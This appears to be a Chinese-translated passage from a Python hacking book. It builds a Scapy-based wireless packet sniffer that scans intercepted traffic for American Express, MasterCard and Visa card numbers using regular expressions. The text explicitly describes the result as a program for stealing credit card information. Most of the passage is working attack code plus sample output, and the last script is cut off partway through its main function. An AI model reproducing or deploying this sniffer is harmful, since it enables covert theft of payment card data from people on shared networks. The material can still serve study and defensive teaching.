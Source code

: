 ```py
import re
def findCreditCard(raw):
    americaRE= re.findall("3[47][0-9]{13}", raw)
    if americaRE:
        print("[+] Found American Express Card: "+americaRE[0])

def main():
    tests = []
    tests.append('I would like to buy 1337 copies of that dvd')
    tests.append('Bill my card: 378282246310005 for \$2600')
    for test in tests:
        findCreditCard(test)
if __name__ == "__main__":
main() 
```

运行我们的测试程序，我们看到它正确的找到了信用卡号码。

```py
attacher$ python americanExpressTest.py
[+] Found American Express Card: 378282246310005 
```

现在，探究正则表达式必须找到 MasterCards 和 Visa 的信用卡号。MasterCards 的信用卡号以 51 或者 55 开头共 16 位数。Visa 的信用卡号以 4 开头，并且 13 位或者 16 位数字。让我们扩展我们的函数找到 MasterCard 和 Visa 信用卡号。注意，MasterCard 信用卡号正则表达式匹配 5 后面跟着 1 或者 5 接着 14 位共 16 位。Visa 正则表达式以 4 开头后面跟着 12 更多的数，我们将在接受 0 或者 3 位数来确保 13 位或者 16 位数。

```py
def findCreditCard(pkt):
    raw = pkt.sprintf('%Raw.load%')
    americaRE = re.findall('3[47][0-9]{13}', raw)
    masterRE = re.findall('5[1-5][0-9]{14}', raw)
    visaRE = re.findall('4[0-9]{12}(?:[0-9]{3})?', raw)
    if americaRE:
        print('[+] Found American Express Card: ' + americaRE[0])
    if masterRE:
        print('[+] Found MasterCard Card: ' + masterRE[0])
    if visaRE:
        print('[+] Found Visa Card: ' + visaRE[0]) 
```

现在我们必须从嗅探到的无线数据包中匹配正则表达式。请记住我们使用混杂模式嗅探的目的，因为它允许我们观察不管是不是给我们的数据包。为了解析我们截获的无线数据包，我们使用`Scapy`库。注意，我们使用`sniff()`函数，`sniff()`函数将每一个经过的数据包作为参数传给`findCreditCard()`函数。不到 25 行的 Python 代码，我们创建了一个偷取信用卡信息的小程序。

```py
# coding=UTF-8
import re
import optparse
from scapy.all import *

def findCreditCard(pkt):
    raw = pkt.sprintf('%Raw.load%')
    americaRE = re.findall('3[47][0-9]{13}', raw)
    masterRE = re.findall('5[1-5][0-9]{14}', raw)
    visaRE = re.findall('4[0-9]{12}(?:[0-9]{3})?', raw)
    if americaRE:
        print('[+] Found American Express Card: ' + americaRE[0])
    if masterRE:
        print('[+] Found MasterCard Card: ' + masterRE[0])
    if visaRE:
        print('[+] Found Visa Card: ' + visaRE[0])

def main():
    parser = optparse.OptionParser('usage % prog -i<interface>')
    parser.add_option('-i', dest='interface', type='string', help='specify interface to listen on')
    (options, args) = parser.parse_args()
    if options.interface == None:
```